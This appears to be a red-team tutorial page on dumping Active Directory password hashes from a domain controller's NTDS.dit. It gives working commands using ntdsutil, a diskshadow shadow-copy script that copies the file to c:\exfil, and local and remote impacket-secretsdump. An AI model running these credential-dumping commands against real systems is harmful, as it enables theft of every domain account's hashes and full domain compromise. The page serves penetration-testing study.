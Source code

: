 ```yaml
---
layout: post
title: "ntds.dit enumeration"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /ntds.dit-enumeration/
---
```


---
layout: post
title: "ntds.dit enumeration"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /ntds.dit-enumeration/
---

---
description: Dumping NTDS.dit with Active Directory users hashes
---

# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](<../../.gitbook/assets/ntds-hashdump (1).png>)

## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C (where ntds.dit is located in our case) and expose it as drive Z:\\

{% code title="shadow.txt" %}
```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```
{% endcode %}

...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:

![](<../../.gitbook/assets/image (406).png>)

Inside interactive diskshadow utility, clean up the shadow volume:

```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](<../../.gitbook/assets/image (223).png>)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM)/" %}

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" %}
@spotheplanet
